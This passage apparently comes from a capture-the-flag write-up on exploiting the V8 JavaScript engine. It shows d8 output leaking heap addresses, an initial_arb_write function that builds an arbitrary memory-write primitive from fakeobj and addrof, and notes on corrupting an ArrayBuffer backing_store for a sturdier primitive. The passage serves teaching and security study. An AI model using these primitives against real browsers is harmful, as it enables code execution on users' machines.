 ```
console.log("[+] Leak fakeArray[0]: " + fakeArray[0]); 
console.log("[+] Leak target_string: " + target_string)

// OUTPUT
root@48d3ec3e0728:/build/v8/v8# ./out.gn/x64.release/d8 --allow-natives-syntax /solve/solve.js
[+] Address of target string: 0x24bf42cdf3c9
[+] Leak address of floatArray: 0x292080f9f9
[+] Leak: 0x4141414141414141
[+] Try to overwrite to this value: 156842099844.53125
[+] Leak fakeArray[0]: 156842099844.53125
[+] Leak target_string: DBBBBBB // this is because BigInt -> Float -> (Char)Byte has loss of accuracy
```

Therefore, we can achieve a initial version of arbitrary address overwrite and try to build a more powerful arbitrary address overwrite primitive.

```
function initial_arb_write(addr, val) {
    // Place a fakeobj right on top of our crafted array with a float array map
    let fake = fakeobj(addrof(arb_rw_arr) - 0x20n);

    // Change the elements pointer using our crafted array to write_addr-0x10
    arb_rw_arr[2] = itof(BigInt(addr) - 0x10n);

    // Write to index 0 as a floating point value
    fake[0] = itof(BigInt(val));
}
```

**A more robust version**

To achieve a more robust version of arbitrary address write primitive, we need to use `ArrayBuffer` and `DataView` object. These two object types provide a more low-level access for raw binary data buffer: `ArrayBuffer` represent an array of bytes (e.g. byte array), and `DataView` provides a way to define how would you interpret these bytes.

Instead of using a Array of float, we use the Array of bytes (i.e. `ArrayBuffer`) and try to overwrite its `backing_store` (which can be seen as the `elements` field of the Array of float).

![](./solution/assets/arbitrary-write-primitive.jpg)
